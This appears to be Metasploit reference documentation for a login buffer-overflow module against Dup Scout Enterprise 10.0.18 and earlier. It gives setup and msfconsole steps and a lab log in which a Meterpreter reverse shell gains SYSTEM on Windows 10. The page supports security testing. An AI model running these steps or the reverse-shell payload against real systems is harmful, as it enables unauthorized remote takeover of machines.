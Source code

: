 ## Vulnerable Application

This module exploits a stack buffer overflow in Dup Scout Enterprise
versions <= 10.0.18. The buffer overflow exists via the web interface
during login. This gives NT AUTHORITY\SYSTEM access.

This module has been tested successfully on Dup Scout Enterprise
versions:

* 9.9.14 on Windows 7 SP1 (x64)
* 9.9.14 on Windows XP SP0 (x64)
* 10.0.18 on Windows 7 SP1 (x64)
* 10.0.18 on Windows XP SP0 (x86)
* 10.0.18 on Windows 10 (1909) (x64)

## Verification Steps

Download:

* [Dup Scout Enterprise v9.9.14](https://www.exploit-db.com/apps/d83948ebf4c325eb8d56db6d8649d490-dupscoutent_setup_v9.9.14.exe)
* [Dup Scout Enterprise v10.0.18](https://www.exploit-db.com/apps/84dcc5fe242ca235b67ad22215fce6a8-dupscoutent_setup_v10.0.18.exe)

Install the application from the link above and enable the web server by going to
Tools -> Advanced Options -> Server -> Enable Web Server on Port.

Metasploit:

1. Install the application and set the option above to enable the web server
1. Start msfconsole
1. Do: `use exploit/windows/http/dup_scout_enterprise_login_bof`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Dup Scout Enterprise version 10.0.18 (x86) on Windows 10 (1909) (x64)

```
msf6 > use exploit/windows/http/dup_scout_enterprise_login_bof 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/dup_scout_enterprise_login_bof) > set rhosts 172.16.191.199
rhosts => 172.16.191.199
msf6 exploit(windows/http/dup_scout_enterprise_login_bof) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(windows/http/dup_scout_enterprise_login_bof) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Dup Scout Enterprise version 10.0.18.
[*] Selecting a target...
[*] Using target: Dup Scout Enterprise 10.0.18 (x86)
[*] Generating payload ...
[*] Sending payload (10000 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.199
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.199:50196) at 2021-02-22 21:14:52 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-6VPIDIM
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 17
Meterpreter     : x86/windows
meterpreter >
```

